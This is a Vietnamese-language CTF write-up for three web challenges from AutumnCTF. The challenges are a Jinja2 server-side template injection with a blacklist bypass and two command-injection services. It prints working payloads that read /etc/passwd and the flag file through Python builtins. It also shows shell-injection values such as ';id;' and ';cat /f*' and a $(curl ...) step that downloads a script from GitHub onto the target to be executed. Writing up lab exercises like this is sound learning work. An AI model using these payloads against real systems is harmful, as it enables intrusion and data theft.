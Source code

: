```yaml
---
title: AutumnCTF ISP Write-up
date: 2022-08-10
categories: [writeup]
tags: [web]
---
```

# AutumnCTF ISP

# Hello my fen

Sau khi đọc source và biết được backend là flask jinja 2 thì có thể đoán luôn được là bài này bị dính SSTI, giờ tìm cách bypass black list và white list của bài thôi.

Lên payload all the things chọn một payload thuộc phần read remote file

```
{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}
```

Sửa file `/etc/passwd` thành `[app.py](http://app.py)` để đọc thử thì thấy kết quả trả về đúng là nội dung file. Giờ thì sẽ làm sao để có thể in ra được nội dung của file `flag.txt`  vì từ `flag` đã nằm trong blacklist

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled.png)

Đến đây thì ta phải dùng hàm `join()` của python để nối chuỗi lại với nhau tạo thành tên file `flag.txt`.

Payload

```
{{get_flashed_messages.__globals__.__builtins__.open("lag.tx".join("ft")).read()}}
```

Flag: **`FLAG{did-you-really-understand-ssti??}`**

# Ping service v1

Chức năng của website sẽ là nhập một địa chỉ ip rồi sẽ chạy lệnh ping đến địa chỉ ip đó

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%201.png)

⇒ liên quan đến Command Injection

Ctrl+U lên để check source thì thấy có ?debug, vào check source nào

```php
<?php
if (isset($_GET['debug'])) {
    die(show_source(__FILE__));
}
if (isset($_GET['addr'])) {
    $addr = $_GET['addr'];
    $addr = preg_replace('/\||&|;|`|{|}|"|\'|cat|tail|>|<|\n/', ' ', $addr);
    $cmd = 'ping -c 2 ' . $addr . ' 2>&1';
    $ans = shell_exec($cmd);
    $ans = '<h3>' . preg_replace('/\r|\n/', '<br/>', $ans) . '</h3>';
}
```

Bên trên là đoạn code cần chú ý, phía backend sẽ dùng hàm `preg_replace()` để filter input mà người dùng nhập vào. Nhưng ở đây ta có thể dùng câu lệnh ví dụ như `$(pwd)` để bypass filter này.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%202.png)

Hướng làm bây giờ sẽ là up 1 file bất kì có chứa nội dung là `cat /flag` trên nền tảng github. Sau đó dùng lệnh `curl` để tải file về phía server. Phải thay đổi vị trí tải file vị trí folder hiện tại `/var/www/html` sẽ không cho phép tạo thêm file

Tạo file trên github

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%203.png)

Sau đó vào phần raw, copy url.

Lệnh `curl` cần dùng:

```php
$(curl https://raw.githubusercontent.com/kmaron1n/temp/main/a.txt -o /tmp/a)
```

câu lệnh trên sẽ gán nội dung của file a.txt vào file mới tạo là `/tmp/a` 

Check xem folder `/tmp` đã có file a chưa:

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%204.png)

OK!

Giờ thì chạy file `a` rồi lấy flag thôi

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%205.png)

Flag: **`FLAG{not-show-stdout-when-r-stupid}`**

# Git checker

Khi truy cập vào đường dẫn ta sẽ được giao diện như sau. 

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%206.png)

Chức năng của website sẽ là chạy lệnh git. CHo chạy qua proxy burpsuite bắt requests, ta thấy command sẽ được truyền tới server dưới dạng JSON

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%207.png)

Param `args` thay đổi được, có vẻ bài này sẽ khai thác được bằng lỗi Command Injection.

Thử thay giá trị của `args` bằng một số payload, ví dụ: `;id;` ⇒ payload hoạt động

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%208.png)

Thử tìm xem có file flag ở đây không bằng payload `;ls` ,  flag nằm cùng thư mục luôn.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%209.png)

Dùng payload `;cat /f*` được Flag

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%2010.png)

Flag: `FLAG{g1t-c0mm4nd_1sn't_s4f333}`